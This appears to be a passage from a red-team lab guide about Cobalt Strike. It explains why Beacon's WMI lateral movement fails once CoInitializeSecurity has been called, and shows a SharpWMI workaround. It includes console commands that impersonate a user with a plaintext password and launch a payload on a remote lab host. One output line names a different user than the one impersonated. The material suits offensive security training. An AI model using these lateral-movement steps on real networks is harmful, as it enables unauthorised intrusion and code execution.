 Beacon's internal implementation of WMI uses a [Beacon Object File](https://cobaltstrike.com/help-beacon-object-files), executed using the [beacon_inline___execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor function. When a BOF is executed the [CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process.  The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.

An example of that can look like the following:
```
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```
  

We know `jking` is a local admin on WEB but because `CoInitializeSecurity` has already been called (probably in the context of `bfarmer`), WMI fails with access denied.  As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas`, or even `execute-assembly` with a tool such as `SharpWMI`.
```
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"

[*] Host                           : web.dev.cyberbotic.io
[*] Command                        : C:\Windows\smb_x64.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 3436
```